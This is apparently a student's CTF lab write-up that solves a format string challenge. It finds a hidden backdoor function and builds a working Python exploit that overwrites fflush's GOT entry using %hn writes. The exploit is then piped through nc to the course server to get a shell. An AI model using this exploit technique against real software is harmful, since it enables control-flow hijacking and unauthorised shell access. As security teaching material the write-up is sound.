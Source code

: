 # Format String Attack Lab

## Extra CTF - FinalFormat

From the name of the challenge we already suspect we are facing a format string
vulnerability. But first let's check the security of the binary we are given to
get an ideia of how we might exploit it.

```sh
$ checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We can see the the stack is not executable and also there is a canary, so
a typical stack based buffer overflow like we did in previous labs is a lot
harder to pull off. But on the other hand, there is no address randomization and
also RELRO is only partial. Now, let's check if the program really is
vulnerable to a format string vulnerability as we suspect.

```sh
$ ./program
There is nothing to see here...%s
Segmentation fault
```

When we pass a "%s" to the program, we get a segmentation fault. This is
because on a format string, "%s" tries to read from the address on the top of
the stack until a null byte is found, but since this address is probably not
valid, this read fails. So, our suspicion is confirmed: we have a format string
vulnerability, now let's exploit it! Let's start by disassembling main in gdb.

```sh
$ gdb program
gdb-peda$ disass main
Dump of assembler code for function main:
    0x0804926d <+0>: endbr32 
    0x08049271 <+4>: push   ebp
    0x08049272 <+5>: mov    ebp,esp
    0x08049274 <+7>: push   ebx
    0x08049275 <+8>: sub    esp,0x40
    0x08049278 <+11>: call   0x8049170 <__x86.get_pc_thunk.bx>
    0x0804927d <+16>: add    ebx,0x2d83
    0x08049283 <+22>: mov    eax,gs:0x14
    0x08049289 <+28>: mov    DWORD PTR [ebp-0x8],eax
    0x0804928c <+31>: xor    eax,eax
    0x0804928e <+33>: lea    eax,[ebx-0x1fd8]
    0x08049294 <+39>: push   eax
    0x08049295 <+40>: call   0x80490b0 <printf@plt>
    0x0804929a <+45>: add    esp,0x4
    0x0804929d <+48>: mov    eax,DWORD PTR [ebx-0x4]
    0x080492a3 <+54>: mov    eax,DWORD PTR [eax]
    0x080492a5 <+56>: push   eax
    0x080492a6 <+57>: call   0x80490c0 <fflush@plt>
    0x080492ab <+62>: add    esp,0x4
    0x080492ae <+65>: lea    eax,[ebp-0x44]
    0x080492b1 <+68>: push   eax
    0x080492b2 <+69>: lea    eax,[ebx-0x1fb8]
    0x080492b8 <+75>: push   eax
    0x080492b9 <+76>: call   0x8049110 <__isoc99_scanf@plt>
    0x080492be <+81>: add    esp,0x8
    0x080492c1 <+84>: lea    eax,[ebx-0x1fb3]
    0x080492c7 <+90>: push   eax
    0x080492c8 <+91>: call   0x80490b0 <printf@plt>
    0x080492cd <+96>: add    esp,0x4
    0x080492d0 <+99>: lea    eax,[ebp-0x44]
    0x080492d3 <+102>: push   eax
    0x080492d4 <+103>: call   0x80490b0 <printf@plt>
    0x080492d9 <+108>: add    esp,0x4
    0x080492dc <+111>: mov    eax,DWORD PTR [ebx-0x4]
    0x080492e2 <+117>: mov    eax,DWORD PTR [eax]
    0x080492e4 <+119>: push   eax
    0x080492e5 <+120>: call   0x80490c0 <fflush@plt>
    0x080492ea <+125>: add    esp,0x4
    0x080492ed <+128>: mov    eax,0x0
    0x080492f2 <+133>: mov    edx,DWORD PTR [ebp-0x8]
    0x080492f5 <+136>: xor    edx,DWORD PTR gs:0x14
    0x080492fc <+143>: je     0x8049303 <main+150>
    0x080492fe <+145>: call   0x8049390 <__stack_chk_fail_local>
    0x08049303 <+150>: mov    ebx,DWORD PTR [ebp-0x4]
    0x08049306 <+153>: leave  
    0x08049307 <+154>: ret    
End of assembler dump.
```

So, after analizing the disassemble and the normal flow of execution, we
conclude that the program is very simple: it prints the string "There is
nothing to see here...", then calls scanf and gets up to 60 characters from
stdin, after that prints the string "You gave me this:" followed by another
printf that probably looks like this printf(buffer), where buffer is user
controlled input. So, besides this format string vulnerability, there doesn't
seem to be anything wrong with this program. We will now use objdump to try to
find any hidden variables or functions.

```sh
$ objdump -t program
(...)
08049236 g     F .text  00000037              old_backdoor
(...)
```

And sure enough, we find this wierd old_backdoor function (we know it is
a function since it is in the .text section). Let's see what is does.

```sh
$ objdump -D program
(...)
08049236 <old_backdoor>:
    8049236: f3 0f 1e fb           endbr32 
    804923a: 55                    push   %ebp
    804923b: 89 e5                 mov    %esp,%ebp
    804923d: 53                    push   %ebx
    804923e: e8 2d ff ff ff        call   8049170 <__x86.get_pc_thunk.bx>
    8049243: 81 c3 bd 2d 00 00     add    $0x2dbd,%ebx
    8049249: 8d 83 08 e0 ff ff     lea    -0x1ff8(%ebx),%eax
    804924f: 50                    push   %eax
    8049250: e8 8b fe ff ff        call   80490e0 <puts@plt>
    8049255: 83 c4 04              add    $0x4,%esp
    8049258: 8d 83 1b e0 ff ff     lea    -0x1fe5(%ebx),%eax
    804925e: 50                    push   %eax
    804925f: e8 8c fe ff ff        call   80490f0 <system@plt>
    8049264: 83 c4 04              add    $0x4,%esp
    8049267: 90                    nop
    8049268: 8b 5d fc              mov    -0x4(%ebp),%ebx
    804926b: c9                    leave  
    804926c: c3                    ret
(...)
```

This functions makes a call to system(), and judging by its name, we're
guessing it will probably spawn a shell. There are two steps to exploiting
a program with a format string vulnerability: find what to write and where to
write it. It's looks like we already found our what, let's note in down.

```python
$ cat exploit.py
#!/usr/bin/python3

# old_backdoor: 0x08049236

content = bytearray(0x0 for i in range(60))
```

This is how our exploit script is looking so far. Now for what to write: we see
that after the vulnerable printf call in main, there is a call to fflush. Since
this is a library call, the code will lookup a table where it can get the
address where it's code is. Since RELRO is only partial, this table is
overwritable. If we replace the address for the real fflush with the address
for old_backdoor, we control the flow of the program! Now lets find the fflush
address.

```sh
$ objdump -R program | grep fflush
0804c010 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

Now we know what to write and where to write, so we're ready to start building
our payload! But first let's try to get the printf stack pointer to point to
our input.

```sh
$ ./program 
There is nothing to see here...AAAA%x
You gave me this:AAAA41414141
```

We see that, after just one %x, we are already getting our output printed back
to us, now if we replace %x with %n, and supply a valid address, we can write
to it.

```python
$ cat exploit.py
#!/usr/bin/python3

# old_backdoor: 0x08049236

content = bytearray(0x0 for i in range(60))
fflush_addr = 0x0804c010
content[0:4] = (fflush_addr).to_bytes(4,byteorder='little')

s = "%x"
fmt = (s).encode('latin1')
content[4:4+len(fmt)] = fmt

with open('payload', 'wb') as f:
  f.write(content)
```

```sh
$ ./exploit.py && cat payload | ./program 
There is nothing to see here...You gave me this:804c010
```

As we can see, we manage to print back to us with "%x" the address with want to
write to. Now, for writing, we will perform 2 short writes: in the first we
write the less significant half of old_backdoor, and then the other half.

```python
$ cat ./exploit.py
#!/usr/bin/python3

# old_backdoor: 0x08049236

content = bytearray(0x0 for i in range(60))
fflush_addr = 0x0804c010
content[0:4] = "JUNK".encode('latin-1')
content[4:8] = (fflush_addr).to_bytes(4,byteorder='little')
content[8:12] = "JUNK".encode('latin-1')
content[12:16] = (fflush_addr + 2).to_bytes(4,byteorder='little')

first_write = 0x9236 - 16
second_write = 0x10804 - 0x9236
s = "%" + str(first_write) + "u%hn%" + str(second_write) + "u%hn"
fmt = (s).encode('latin1')
content[16:16+len(fmt)] = fmt

with open('payload', 'wb') as f:
  f.write(content)
```

There are just a few things that need further explaining: first, we are padding
our flush address with "JUNK", this is because the "%u"s we use "steal" the
element on the top of the stack, so we add this so that it does not steal our
address, since we want it to be used by "%hn". Also, you may notice that we
used 0x10804 as the second half of the old_backdoor address. This is a trick we
use since 0x804 is less than 0x9236, so it would have given a negative value,
which we don't want. Now let's run it!

```sh
$ ./exploit.py && cat payload | ./program
(...)
Backdoor activated
```

And we get the "Backdoor activated" message, we have successfully taken control!
Just need one last trick: although we called the old_backdoor function, we
didn't get a shell. To fix this, just need to pipe another cat:

```sh
$ ./exploit.py && (cat payload;cat) | ./program
(...)
Backdoor activated
whoami
seed
```

Success! Now just pipe it to the server instead of our local program and we get
the flag.

```sh
$ ./exploit.py && (cat payload;cat) | nc ctf-fsi.fe.up.pt 4007
(...)
cat flag.txt
flag{ **REDACTED** }
```
